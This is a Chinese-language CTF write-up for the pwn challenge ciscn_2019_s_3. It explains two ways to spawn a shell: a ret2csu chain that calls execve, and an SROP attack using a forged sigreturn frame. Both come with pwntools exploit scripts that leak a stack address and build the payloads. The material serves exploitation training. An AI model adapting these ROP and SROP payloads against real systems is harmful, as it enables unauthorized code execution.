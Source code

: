 ### ciscn_2019_s_3

本题代码很少，注意到 `gadgets` 函数中有 `mov rax, 0Fh` 和 `mov rax, 3Bh` 可以控制 `rax`，它们恰好分别对应系统调用 `sigreturn` 和 `execve`。因此本题可以围绕这两个系统调用给出两种做法。

比较难的做法是利用 `execve`，我们希望执行 `execve('/bin/sh',0,0)`，那么还需要控制 `rdi,rsi,rdx`。这里需要几个 gadgets，但是 `gadgets` 函数中的不够用，所以可以 `ret2csu`。`/bin/sh` 需要我们自己写，但只能写到栈上，因此需要通过 `write` 泄露栈地址。

我们输入的内容位于 `rbp-0x10`，那么填充 16 字节后填充 `main` 函数地址即可重启程序同时泄露栈地址，gdb 调试可知泄露位置距离我们的输入偏移量为 `0x118` 字节。

最后在栈上布置好 `/bin/sh` 字符串和 `pop_rdi` 的 gadget，准备好 `rax`，返回到 csu 末尾确保 `rbx=0` 且 `rbp=1`，将栈上 `pop rdi` 的地址给 `r12` 以便调用，随后设置 `rsi,rdx` 为 0，最后将 `/bin/sh` 的地址给 `rdi`，调用 `syscall` 即可。

```python
syscall = 0x400517
mov_rax_3b = 0x4004e2
pop_rdi = 0x4005a3
csu_1 = 0x400580
csu_2 = 0x40059a

payload = 'a'*16 + p64(elf.sym['main'])
sl(payload)
r(0x20)
stack = uu64(r(8))-0x118
leak('stack',stack)

payload = flat('/bin/sh\x00',pop_rdi,mov_rax_3b,csu_2,0,1,stack-0x18,0,0,0,csu_1,pop_rdi,stack-0x20,syscall)
sl(payload)
```

第二种方法则是 SROP。我们利用 `mov rax, 0Fh` 控制 `rax` 为 15，随后调用 `syscall`，相当于执行了一次 `sigreturn`。可以伪造 sigreturn frame 来执行 `execve('/bin/sh',0,0)`。

```python
syscall = 0x400517
mov_rax_0f = 0x4004da

payload = 'a'*16 + p64(elf.sym['vuln'])
sl(payload)
r(0x20)
stack = uu64(p.r(8))-0x118
leak('stack',stack)

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = stack
frame.rsi = 0
frame.rdx = 0
frame.rsp = stack
frame.rip = syscall

payload = flat('/bin/sh\x00'*2,mov_rax_0f,syscall) + str(frame)
sl(payload)
```

